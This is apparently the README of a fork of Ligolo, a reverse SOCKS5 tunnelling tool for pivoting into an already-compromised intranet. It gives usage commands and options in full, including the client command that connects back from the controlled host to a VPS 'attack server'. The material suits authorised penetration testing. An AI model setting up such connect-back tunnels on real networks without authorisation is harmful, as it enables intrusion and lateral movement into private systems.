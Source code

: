 # Ligolo: Reverse tunnel for intranet penetration

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

English | [简体中文](./README_ZH.md)

## introduce

The project is modified according to [ligolo](https://github.com/sysdream/ligolo), mainly for some functional tailoring, which is convenient to use.

**Ligolo** is a simple, lightweight reverse Socks5 proxy tool, all traffic is encrypted with TLS.

Its function is similar to *Autoroute + Socks4a* in *Meterpreter*, but it is more stable and faster.

## why you need this

When you have obtained the permission of a Windows / Linux / Mac host on the other party's intranet and the host can connect to the Internet.

At this point you want to establish a Socks5 proxy for the other party's intranet.

**Ligolo** can help you establish an agent to help you continue to penetrate the intranet.

> If the controlled host cannot access the Internet, you can try another tool [pystinger](https://github.com/FunnyWolf/pystinger)

## Instructions

### TL;DR

- Get the compiled binary file [release](https://github.com/FunnyWolf/ligolo/releases)

- In your VPS hosting.

```
./ligolos
```

- In the controlled intranet host.

```
> ligoloc.exe -s your-vps-ip:443
```

- After the connection is successfully established, the 127.0.0.1:1080 of the VPS has established the Socks5 proxy for the internal network of the controlled host.

### Detailed description

*Ligolo* contains two modules:

- ligolos (server)
- ligoloc (client)

*ligolos* runs on your VPS server (attack server).

*ligoloc* runs on an already controlled intranet host.

*ligolos* can use the default settings. It will listen on port 0.0.0.0:443 (for waiting for ligoloc connection) and 127.0.0.1:1080 (for socks5 proxy).

*ligoloc* The server address must be specified when running, using the parameter `-s your-vps-ip:443`.

You can use the `-h` parameter to view the help.

Once the connection between *ligolos* and *ligoloc* is established, you can use the intranet socks5 proxy of the VPS server `127.0.0.1:1080`.

### Options

*ligolos* options:

```
PS XXX\bin> .\ligolos_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligolos_windows_amd64.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -s5 string
        The local socks5 server address (your proxychains parameter) (default "127.0.0.1:1080")
```

*ligoloc* options:

```
PS XXX\bin> .\ligoloc_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligoloc_windows_amd64.exe:
  -s string
        The relay server (the connect-back address) (default "example.com:443")
```

### Compile

Refer to the compilation method of the original ligolo

## Features

-TLS 1.3 encrypted tunnel
-Multi-platform (Windows / Linux / Mac /...)
-Multiple connection multiplexing (1 TCP connection transmits all traffic)
-SOCKS5 proxy

## To Do

-Better timeout mechanism
-SOCKS5 UDP support
-mTLS mutual authentication
-Reverse port mapping (mapping intranet port to internet)

## Licensing

GNU General Public License v3.0 (refer to LICENSING).

## Original author

* Nicolas Chatelain <n.chatelain -at- sysdream.com>